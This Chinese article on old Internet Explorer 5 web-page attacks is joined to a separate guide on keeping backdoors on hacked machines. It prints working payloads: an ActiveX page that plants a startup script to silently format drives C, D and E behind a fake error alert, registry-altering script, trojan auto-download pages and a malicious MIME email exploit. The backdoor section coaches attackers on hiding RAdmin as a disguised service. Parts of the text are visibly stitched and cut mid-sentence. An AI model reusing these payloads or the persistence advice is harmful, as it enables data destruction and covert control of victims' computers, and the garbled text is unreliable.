

浏览网页是大多数网民上网操作的最多的活动了，可是你在浏览网页获取各种信息时，是否知道你浏览的网页可能存在的“陷阱”，特别是使用 Internet Explorer 5.0 的用户，更要小心，因为它存在着许多安全隐患，黑客可以利用这些 IE 的漏洞制作出特定的网页攻击浏览的用户，本文就曝光一些常见的网页攻击原理。下面就让我们来看看黑客是如何具体利用的，网友们又该如何防范。

### 一、炸你没商量——网页炸弹

#### 1. Javascript 炸弹
IE 内嵌了 Javascript 的功能，现在网上有些无聊之人用 Javascript 写了许多恶意小程序，网民们如果浏览了带有这些小程序的网页就会遭到攻击，导致内存和 CPU 超负荷，甚至死机。这种 Javascript 炸弹有很多，在这里只简单地介绍几种。

- **窗口炸弹**
```html

```
网民浏览这个网页后，IE 就会打开无数个新的窗口（图 1），直至内存耗尽。

- **图片炸弹**
```html
</a></p>
```
这个炸弹发了一幅“特大”的图片，会让浏览的机器的 CPU 超负荷。

- **背景炸弹**
```html
<script>
var color = new Array;
color[1] = "black";
color[2] = "white";
for(x = 0; x < 3; x++)
{document.bgColor = color[x]; if(x == 2){x = 0;}}
</script>
```
这个炸弹会让对方的窗口背景颜色在“黑白”两色之间急速无限地更换，使整个屏幕激烈抖动，非常可怕哦。

#### 2. con/con 死机炸弹
Windows 9x 的 con\con 漏洞大家也许听说过吧，就是当 Windows 98 操作系统解释一个如 “c:\[device]\[device]” 这样的路径，来调用 FAT32/VFAT 内核程序时，很可能会导致其上的一些本地或远程的应用程序崩溃，出现系统“蓝屏”，并最终导致整个系统的崩溃死机，只有重新启动才能恢复正常。有 5 个设备驱动程序可被利用来做此攻击：con、nul、aux、clock$ 和 config$。而其他驱动程序都不会产生影响，所以本地与远程用户通过使用一个指向特殊的设备驱动器的路径串，如 con/nul、nul/con、aux/nul……的组合对攻击 Windows 9x 都很有效。

所以，在网页里隐藏一个指向 `[drive]:\con\con` 或 `[drive]:\nul\nul` 的图像路径，当查看该网页时，也会使 Windows 98 崩溃死机。具体代码如下：
```html
<html>
<body>

<!-- or nul\nul,clock\clock$ -->
<!-- or aux\aux,config$\config$ -->
</body>
</html>
```
把这个网页代码用 html 格式发邮件给别人，如果此人用的是 Windows 98，那么他一打开这封信，系统就会马上崩溃。不过，这个漏洞对 Windows NT、Windows 2000、Netscape(网景)浏览器无效。

### 二、罪大恶极——格式化硬盘网页
利用了 IE5.0 的 Active 控件的一个漏洞，网页可以创建和复写地文件，可以将 html 应用程序文件中的可执行程序添加到 Windows 9x 的开始菜单中。该机器下次启动时，程序就会执行，这虽然是个老漏洞，但杀伤力却是极大，甚至可以格式化硬盘，只要在网页中具体加入如下代码：
```html
<object id="scr" classid="clsid:06290BD5-48AA-11D2-8432-006008C3FBFC">
</object>
<script>
scr.Reset();
scr.Path="c:\WINDOWS\Start Menu\Programs\启动\death.hta";
scr.Doc="<object id='wsh' classid='clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B'></object><SCRIPT>wsh.Run('start /m format c: /autotest /u');wsh.Run('start /m format d: /autotest /u');wsh.Run('start /m format e: /autotest /u');alert('windows 系统出错，修复程序正在进行修复，这可能需要几分钟！'); </"+"SCRIPT>";
scr.write();
</script>
```
这段表示利用特定 WINDOWS SHELL 的注册号建立一个 ActiveX 的程序，这里建立了一个名为 death.hta 的 ActiveX 应用程序，并通过 `scr.Path="c:\windows\Start Menu\Programs\启动\death.hta"` 这句将其放入了 Windows 98 的开始菜单的启动栏中，使得该机器下次启动时此程序就会执行。而这个新的 ActiveX 程序 death.hta 的具体内容就是格式化硬盘了，我们从上面的程序中可以看到这个程序一连用了 3 句 `wsh.Run('start /m format driver: /autotest /u')` 来分别格式化 C、D、E 盘（够狠的），而用 `start /m`，使得程序以最小化的方式运行，所以用户不容易发现。用参数 `/autotest`，会在某个驱动器上自动运行 format 而不再需要经过用户的确认。参数 `/u` 是：无条件格式化，并且不保存原来盘上的信息，从而使得无法用 unformat 命令恢复。除此之外，为了制造假象，这个程序还增加了 `alert ('Windows 系统出错……')` 的代码，这段代码会使得在程序运行时系统就出现 “Windows 系统出错，修复程序正在进行修复，这可能需要几分钟” 的假消息来欺骗用户不要打断其格式化进程。



这样，使用 Windows 9x 用户浏览了这个网页的话，它的 `c:\windows \startmenu\promgrams\启动\` 中就会生成一个名为 death.hta 的 ActiveX 应用程序，用户重启了计算机后，再进入 Windows 98 桌面不久，就会跳出 3 个最小化的格式化硬盘的 DOS 窗口和 “Windows 系统出错，修复……”的假消息（图 2），真可怕吧，而且它的格式化是自动进行，速度很快，等你反应过来强行结束程序时，格式化过程早就已经开始了，硬盘数据也被破坏了。

### 三、卑鄙无耻——网页修改注册表
含有特殊代码的 ActiveX 网页文件还能修改注册表，修改注册表意味着什么，大家该知道吧，注册表是存储计算机软硬件的配置信息的数据库，修改它，轻的像桌面隐藏等恶作剧，重则系统瘫痪，很可怕哦。像前段时间闹得沸沸扬扬的“万花谷”病毒和“混客炸弹”的基本原理就是如此，它们把注册表许多重要键值都改了。但我们这里只是为了说明原理，举个简单的例子：修改 Windows 9x 的 IE 标题栏并隐藏桌面，代码如下：
```javascript
<SCRIPT language=JavaScript>
document.write("<applet height=0 width=0 code=com.ms.activeX.ActiveXComponent> ");
function f(){ try {
//ActiveX initialization
a1=document.applets[0];
a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
a1.createInstance(); Shl = a1.GetObject();
a1.setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}");
a1.createInstance(); FSO = a1.GetObject();
a1.setCLSID("{F935DC26-1CF0-11D0-ADB9-00C04FD58A0B}");
a1.createInstance(); Net = a1.GetObject(); try
{ if (document.cookie.indexOf("Chg") == -1) {
Shl.RegWrite ("HKLM\Software\Microsoft\Internet Explorer\Main\Window Title", "IE 标题被我改了");
Shl.RegWrite ("HKCU\Software\Microsoft\Internet Explorer\Main\Window Title", "IE 标题被我改了");
Shl.RegWrite("HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoDesktop", "00000001", "REG_DWORD");
var expdate = new Date((new Date()).getTime() + (1));
document.cookie="Chg=general; expires=" + expdate.toGMTString() + "; path=/;"
} }
catch(e)
{} }
catch(e)
{} } function init(){
setTimeout("f()", 1000);
} init();
</SCRIPT>
```
代码中的“Shl.RegWrite”后就是具体被修改注册表的内容，浏览这个网页的 Windows 9x 用户的标题栏会出现 “IE 标题被我改了”字样，桌面上所有的图标也会被隐藏（图 3）。


图 3

### 四、防不胜防——网页木马
木马知道吧，它可怕的功能大家也应该有所耳闻吧。不过，大家一般认为只有运行未知的 EXE 程序才会中木马，呵呵，其实浏览网页也会中木马，黑客如何在网页中下木马呀？

第一种方法： 让 html 带动同路径下一个 exe 的文件的主页，也就是当浏览器浏览这个页面的时候，一个 exe 的文件就在后台自动下载并执行了。先申请一个个人主页空间，把这两个文件上传到同一文件夹去，一个是 muma.htm 的文件，内容如下：
```javascript
<script language="javascript">
run_exe="<OBJECT ID="RUNIT" WIDTH=0 HEIGHT=0 TYPE="application/x-oleobject" CODEBASE="muma.exe#version=1,1,1,1">";
run_exe+="<PARAM NAME="_Version" value="65536">";
run_exe+="</OBJECT>";
run_exe+="<HTML><H1>网页加载中, 请稍后....</H1></HTML>";
document.open();
document.clear();
document.writeln(run_exe);
document.close();
</script>
```
另一个是名为 muma.exe 的木马，当我们浏览这个 html 文件时，就会看到“网页加载中，请稍后……”，同时，我们的那个同路径下的 muma.exe 文件也会被执行，但是执行前 IE 的安全警告会跳出来，用户一般不会愿意冒这个险，所以这种攻击方法不是最危险的。下面这种方法就危险了，不会有任何提示。

这种方法利用的是 IE 处理异常 MIME 头的漏洞，至于原理已经有太多叙述了，这里只介绍具体实现方法，黑客会先将一个小巧的 exe 文件做成一个 .eml 的文件，然后利用 MIME 漏洞让一个 html 的页面执行这个 .eml 的文件，你的那个小巧的 exe 文件就被执行了。先创建如下一个 .eml 的文件：
```text
From: "xxx" <xxxx@xxx.xxx>
To: "xxx" <xxxx@xxx.xxx>
Subject: xxxx
Date: Tue, 7 Apr 2001 15:16:57 +800
MIME-Version: 1.0
Content-Type: multipart/related; type="multipart/alternative"; boundary="1"
X-Priority: 3
X-MSMail-Priority: Normal
X-Unsent: 1
--1
Content-Type: multipart/alternative; boundary="2"
--2
Content-Type: text/html; charset="gb2312"
Content-Transfer-Encoding: quoted-printable
<HTML>
<HEAD>
</HEAD>
<BODY bgColor=3D#ffffff>
<iframe src=3Dcid:THE-CID height=3D0 width=3D0></iframe>
</BODY>
</HTML>
--2--
--1
Content-Type: audio/x-wav; <===== (错误的 MIME 头)
name="木马名.exe"
Content-Transfer-Encoding: base64
Content-ID: <THE-CID>

TVqQAAMAAAAEAAAA//8AALgAAAAAAA
AAQAAAAAAAAAAAAAAAAAAAAAAAAA
( base64 编码软件的编码 )
```
由于 exe 文件转换后 base64 编码代码过长而省略了，建议木马不要超过 20K，至于如何将 exe 文件转换成 base64 编码，不用说了吧，你可以用 OE 带上木马附件先给自己发封信，然后将这封信导出为 .eml 文件再进行编辑就行了。接着，我们再来建立一个启动 .eml 木马的网页文件，内容如下：
```html
<html>
<head>
<title>
</title>
</head>
<body>
<SCRIPT LANGUAGE="JAVASCRIPT">
setTimeout("document.location.href=' 你取的名字.eml'",0000);
</SCRIPT><center><font color="#FF0000" size="7">
</font>
</center>
</body>
</html>
```
然后，把这两个文件放到主页空间的同一路径下，当有人浏览这个网页文件时，EML 中的木马就会毫无提示地执行，所以这种方法就比较危险。但如果用户装了 realplay、超级解霸等媒体播放软件，wav 文件类型被这些播放器关联，遇到这些文件播

### 五、最后谎言——网页欺骗

光驱会自动打开，那木马就不会执行。

网页欺骗就是黑客建立某个 Web 站点网页的“影子拷贝”，这个拷贝虽然表面上具有与原 Web 站点内容和链接，但实际上这个 Web 页的某些数据和链接已经被黑客修改了。用户访问这些链接时会先经过黑客控制的主机，接着黑客便可以监控用户整个 HTTP 请求过程了，他会窃取用户的账号和口令等信息，甚至假冒用户给服务器发送数据，也可以假冒服务器给用户发送假信息。

制作假网页很简单，因为黑客只要去要假冒的站点拷贝所有的内容并随站点的更新而更新就行了。当然，拷贝下来的网页要改写所有的 URL，使得这些 URL 指向黑客的服务器，而不是真的服务器。我们假设黑客控制的服务器是 www.hacker.com，而原来的网页上的 URL 是 http://www.target.com，那么攻击者会把这些原来 URL 改成 http://www.hacker.com/http://www.target.com。这样，当用户点击 URL 时，浏览器实际上请求的是从 www.hacker.com 来的网页。而这个 URL 的后半部分是告诉我们黑客的服务器去哪里取得真正所要的网页，当然，当用户请求的网页经过黑客的服务器时，黑客随时编写个脚本就又可以改写这个页面里所有的 URL，这样当用户向服务器提交一些返回界面时点击的还是经过黑客修改的链接，还是要经过黑客的服务器而且这些 URL 的改写不会在页面发生任何变化，用户很难发觉，这时用户已经陷入了一个黑客编制的假 Web 陷阱中，永远不能离开。



用户一旦访问了黑客做的假网页后，所有与服务器的通讯就要通过黑客的服务器了，那黑客就可以在他的机器上用黑客工具监视和控制一切了。黑客用监控程序就可以窃取到用户的账户和口令，接着便偷看或删除信箱里的信件。如果黑客做的假网页是某个在线商务网站，而用户使用它来进行网上定货的话，黑客会重仿商务网站的表单给用户，当然其中的价格等自然不会是真的，用户提交的返回表单黑客也会修改编辑其产品号、数量及接收地址等信息，这时用户的损失就惨重了。而如果是其他更加重要的如网上银行、证券交易等，那就更危险了。

### 六、拒之千里——远离网页攻击

其实，黑客网页攻击的手段还有很多，像 HAPPYTIME 的网页病毒，利用 chm 文件执行任意程序，利用 IE5.0 漏洞读取客户机上的文件等攻击。我们这里由于篇幅所限未能提及，文中介绍的只是一部分；不过相信通过上面的介绍，大家应该已经对 IE 的安全隐患有了足够的认识和重视。现在，我们再来说说防护措施吧。

- (1) 要避免恶意网页，首先是不要轻易去一些自己并不了解的小站点。其次，在 IE 设置中将 ActiveX 插件和控件、Java 脚本等全部禁止就可以避免中招。具体方法是：在 IE 窗口中点击“工具->Internet 选项”，在弹出的对话框中选择“安全”标签，再点击“自定义级别”按钮，就会弹出“安全设置”对话框，把其中所有 ActiveX 插件和控件以及 Java 相关全部选择“禁用”即可 (图 4)。在 Windows 2000 下把服务器里面的远程注册表操作服务“Remote Registry Service”禁用就可以了。方法是点击“管理工具->服务->Remote Registry Service (允许远程注册表操作)”，将这一项禁用。
- (2) 所有的漏洞都是建立在系统漏洞的前提下，大家应该多升级多打补丁，像现在 Windows 9x 用户最好使用 IE6.0，当然你甚至可以不要使用 IE，改换网景的浏览器。同时，目前的许多杀毒软件已经把恶意网页列为查杀对象，我们可以借助于它们，并尽量通过升级到最新病毒库，来预防该类恶意网页的侵害。
- (3) 网页欺骗虽然不易发现，但只要你仔细点，也有蛛丝马迹可寻，如网页的状态栏、地址栏在用户点向一个链接时会显示具体的 URL，地址栏更是明显，会显示出整个真实的 URL，还有网页源码也会暴露黑客的阴谋。

## 后门程序的隐藏



大凡喜欢 Hacker 技术的朋友在成功进入目标机器后，通常都会留下一两个后门，以便下一次方便进入该机。后门可以分为系统账号和后门程序。账号方面当前要数“克隆管理员”最为流行。而后门程序，哪个比较好用、流行，到黑软下载站点查一下“后门程序”类，下载点击率如何，一看便知。不过业界好像遵循“枪打出头鸟”这个规律，流行起来的后门程序很快会被杀毒软件列入追杀行列，冠以“病毒”之名。所以，现在很多高手用的后门程序都是自己写的。现在网络上有些人写一些所谓的“个人版”来出售，这些自己写后不公开或所谓的“个人版”由于种种原因，很少被杀毒软件所查到。:-)

相信每一个给“肉鸡”留后门的朋友都不愿意自己辛辛苦苦弄到手的“肉机”，由于对方装有杀毒工具而自己安的后门刚好被列入“病毒”的行列而失去它吧？退一步来说，即使我们给对方装的“后门”没有被杀毒工具列入追杀行列或对方机器根本没有装什么防毒工具，当我们堂而皇之地将后门程序在对方的机器上安装完成后，这些程序通常都会在启动选项（包括程序菜单下的启动及注册表中所含的启动选项，下同）或服务列表处留下它的“足迹”，以便下次机器重启时运行。一个还不算太笨的管理员至少应该有查看系统启动选项及进程的习惯吧。至于服务列表，一个好的管理员也应该有经常查看的习惯。如果是这样，那么，我们给对方装的后门便很容易暴露在对方的眼皮底下。

如此说来，一个好的后门程序至少必须具备以下条件：

### 一、安全性

这个安全性包括：不容易被查杀；有密码保护及没有通用密码。不容易被查杀并不是软件作者所能为之的，因为一旦某个后门程序由于功能强大而流行起来的话，很难保证其不被很多杀毒工具所查杀，这也是很多作者为什么做一个“公开版”后，自己还要做一个“私人版”的原因。至于有密码保护，这一点也是很重要的，不然，辛辛苦苦弄到手的“肉鸡”很有可能不久之后落入他人之手而将自己关在门外。对于没有通用密码，冰河木马的衰落就是一个活生生的例子。我就不再多言了。

### 二、隐藏性

上面我们说了，后门程序的运行需要利用到系统的启动选项或以服务的方式来运行，我认为，将程序放在启动选项里面是最容易被发现的；而以服务的方式运行，由于需要在服务列表中新增一项服务，虽然比前者要隐蔽一些，但很多管理员还是会去查看系统的服务列表（尽管很多的管理员从来不去看或很少去看）或查看系统进程来发现已运行的可疑程序。一旦对方拿着系统刚装完时导出来的服务列表跟现在的服务列表对照，就会发现我们种下的服务。所以新增服务、新增启动选项的隐藏性还不能真正满足我们的要求。

### 三、易用性

一个后门程序的功能是否强大、易用也是一件应该考虑的事情。

基于以上几点，现在我拿 Remote Administrator (以下简称 RAdmin) 作为后门程序 (话说有没有说完，臭鸡蛋如雨点般打过来。呵呵！幸好我好有准备，闪得快)。RAdmin 和 PCanywhere、Winvnc 等一样是一款远程管理、控制软件，分客户端和服务端，但后两者服务端安装完成后，会在状态栏多出一个图标，而 RAdmin 则可以实现图标的隐藏。RAdmin 服务端默认在目标机器上安装完成后，以服务的方式运行，并且会在服务列表中新增一项 “Remote Administrator Service” 的服务，呵呵，虽然很多管理员从来不去看启动选项及服务列表里面的内容，但你也无法保证你进入的机器的管理员是个例外吧 (我真的这么衰么)？如果对方在查看服务列表时，会看着新增的这个 “Remote Administrator Service” 服务、看着系统进程多了一个 r_server 进程而不理吗？如果我们能够通过替换系统自带的服务且不改变其服务性质而来到达我们留下后门的目的，那是一件再好不过的事情了。：-)

现在我先来介绍一下 RAdmin。RAdmin (我的网站提供下载及注册码) 目前最新版本是 2.1。由于安装比较简单，我就不说了。安装完成后需要重启，比较麻烦。

重启后我们打开“开始”→“程序”→“Remote Administrator 2.1”下的“Settings for Remote Administrator Server”对服务端进行设置，这时会要求输入注册码，输入完毕后会打开如图 1 所示对话框：



第一、二个按钮分别是本地服务安装、删除，第三个按钮 “Set password” 是设置连接密码的。按此按钮进入设置密码，如图 2 所示。

设置的密码需要超过 8 位。下面的 “Enable NT security” 一般不用理，按 “OK” 退出。按 “Options” 按钮进入 RAdmin 的基本设置，如图 3 所示。

